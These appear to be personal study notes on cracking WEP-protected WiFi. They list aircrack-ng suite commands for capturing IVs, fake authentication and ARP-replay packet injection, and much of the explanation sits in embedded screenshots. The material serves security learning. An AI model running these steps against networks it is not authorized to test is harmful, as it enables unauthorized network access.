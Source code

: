 ![[Screenshot 2025-03-05 182121.png]]

## Gaining Access - WEP Cracking
![[Screenshot 2025-03-05 182236.png]]![[Screenshot 2025-03-05 182312.png]]
![[Screenshot 2025-03-05 182418.png]]
![[Screenshot 2025-03-05 182543.png]]
![[Screenshot 2025-03-05 182644.png]]

First, we need to start capturing the packets that contain IVs : `airodump-ng --bssid <SSID> --channel <number> --write <filename> mono0`
Then we need to analyze them and crack the key : `aircrack-ng <filename>.cap`

A key will be provided to us which will help us in connecting the WiFi.
![[Screenshot 2025-03-05 183151.png]]

## Associating with Target Network using Fake Authentication Attack
And then this key provided is the password just by removing the `:`.
![[Screenshot 2025-03-05 183420.png]]
![[Screenshot 2025-03-05 184107.png]]
 To associate with the AP we'll use a tool called `aireplay-ng --fakeauth 0 -a <mac-of-targett-network> -h <mac-of-wireless-adapter> <name-of-wireless-adapter> `
Here we don't connect with the network accessing its internet rather we just associate with it which helps in communication.

## Packet Injection - ARP Request
![[Screenshot 2025-03-05 184627.png]]
Now, we'll run an Aireplay Attack : `aireplay-ng --arpreplay -b <mac-of-target-network> -h <mac-of-wireless-adapter> <name-of-wireless-adapter>` 

And then as soon as the ARP Request is received, we'll try to associated to the AP  :  `aireplay-ng --fakeauth 0 -a <mac> -h <mac> <wireless-adapter-name>`

Then after associating we'll run the command to crack the key using the command : `aircrack-ng <filename>.cap`

